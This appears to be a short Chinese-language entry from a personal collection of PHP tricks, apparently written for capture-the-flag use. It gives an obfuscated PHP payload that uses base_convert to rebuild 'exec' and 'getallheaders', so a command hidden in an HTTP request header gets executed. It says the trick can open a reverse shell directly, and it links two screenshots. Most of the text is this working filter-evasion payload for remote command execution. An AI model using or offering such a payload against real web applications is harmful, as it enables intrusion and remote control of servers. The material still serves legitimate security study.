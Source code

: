 **getallheaders绕过**

将命令放在请求头中

$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1})
//base_convert(696468,10,36) -> exec
//base_convert(8768397090111664438,10,30) -> getallheaders
//exec(getallheaders(){1})

直接反弹shell，如果再burp或者hackbar里面命令执行的话回显只有一个结果

![Untitled](PHP%20Trick%2085f5b3dc12ee4d0f8917c3ff2a2f5a7e/Untitled%204.png)

![Untitled](PHP%20Trick%2085f5b3dc12ee4d0f8917c3ff2a2f5a7e/Untitled%205.png)
